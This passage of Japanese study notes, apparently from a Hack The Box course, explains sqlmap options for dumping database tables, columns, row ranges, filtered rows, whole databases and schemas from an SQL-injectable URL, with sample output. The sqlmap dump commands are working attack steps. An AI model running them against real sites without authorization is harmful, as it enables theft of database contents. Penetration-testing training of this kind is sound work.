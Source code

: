 - 特定のテーブルの内容を取得するには`-T`で指定することができる
- --dumpで、テーブルの内容の表示・csvとして書き出し

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```

### テーブル・列での列挙

カラム指定での列挙
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

行の範囲指定（–start, –stop）
- 例えば、2〜3行目だけ取得したいとき
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```

条件付き列挙（–where）
- 「名前が f から始まるユーザーだけ取得」など、条件指定での抽出も可能
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

DB全体の列挙（Full DB Enumeration）
- 特定のテーブルを指定せずに現在のDB全体をダンプ
```sh
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb
```

- 全データベースから全テーブルをダンプ
	- --exclude-sysdbs オプションは、一般的に価値の少ないシステムDBをスキップする
```sh
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs
```

### データベーススキーマの列挙
- すべてのテーブル構造を取得して、データベース全体の構成を把握したい場合、`--schema` オプションを使う
- 各データベースごとにテーブルの構造（カラム名とデータ型）が表示される
```shell-session
snowyowl644@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
```